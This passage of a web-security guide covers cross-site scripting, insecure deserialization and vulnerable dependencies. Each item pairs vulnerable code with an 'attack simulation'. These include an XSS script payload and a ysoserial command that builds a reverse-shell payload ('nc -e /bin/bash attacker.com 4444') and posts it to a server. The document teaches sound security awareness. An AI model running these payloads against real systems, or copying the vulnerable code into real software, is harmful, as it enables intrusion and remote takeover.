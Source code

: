 **Attack Simulation**:
An attacker could inject malicious scripts as follows:
```python
import requests

url = 'http://example.com/comment'
data = {
    'comment': '<script>alert("XSS")</script>'
}
response = requests.post(url, data=data)
print(response.text)
```

**Tools Required**:
- Burp Suite
- OWASP ZAP

#### 8. Insecure Deserialization

**Description**: Insecure deserialization occurs when untrusted data is used to abuse the logic of an application, escalate privileges, or execute arbitrary code. This is often found in applications that accept serialized objects from the user and deserialize them without proper validation.

**Example**: Remote Code Execution via Deserialization

**Code Snippet**:
```java
// Vulnerable Java code
ObjectInputStream in = new ObjectInputStream(request.getInputStream());
Object obj = in.readObject();
```

**Attack Simulation**:
An attacker could exploit insecure deserialization as follows:
```bash
java -jar ysoserial.jar CommonsCollections5 "nc -e /bin/bash attacker.com 4444" > payload.ser
curl -X POST -d @payload.ser http://example.com/upload
```

**Tools Required**:
- Burp Suite
- ysoserial

#### 9. Using Components with Known Vulnerabilities

**Description**: This occurs when software components, such as libraries, frameworks, and other modules, with known vulnerabilities are used without proper version management or patching. These components can be easily exploited by attackers to compromise the application.

**Example**: Using a Vulnerable Library

**Code Snippet**:
```xml
<!-- Vulnerable Maven dependency -->
<dependency>
  <groupId>org.apache.struts</groupId>
  <artifactId>struts2-core</artifactId>
  <version>2.3.1</version> <!-- Vulnerable version -->
</dependency>
```
